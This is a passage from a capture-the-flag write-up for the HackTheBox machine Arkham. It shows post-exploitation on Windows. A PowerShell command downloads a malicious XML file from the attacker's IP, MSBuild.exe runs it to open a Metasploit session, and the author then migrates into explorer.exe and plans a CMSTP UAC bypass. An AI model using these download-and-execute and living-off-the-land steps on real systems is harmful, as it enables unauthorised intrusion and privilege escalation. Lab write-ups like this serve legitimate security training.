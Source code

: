 Now lets transfer the `arkham.xml` to the target with:

```cmd
powershell -c iwr -uri 10.10.14.61/arkham.xml -outfile a.xml
```

Now we are ready to execute, from the target use `MSBuild.exe` againts the `xml` file:

```cmd
\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe \Users\Batman\appdata\local\temp\a.xml
```

This freezes the connection, but metasploit got a connection:

![conn-52](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/conn-52.png)

Now lets enter the session with `sessions -i 1` and load powershell:

![full-53](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/full-53.png)

The first time i did this the session died on me, but this spwned a seconed session and this time it worked. 

Now we want to migrate to an interactive and a x64 process, `explorer.exe` is an easy choice:

![migrate-54](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/migrate-54.png)


Now we have an interactive process with full powershell capabilities, so we can finally bypass any UAC's with CMSTP.

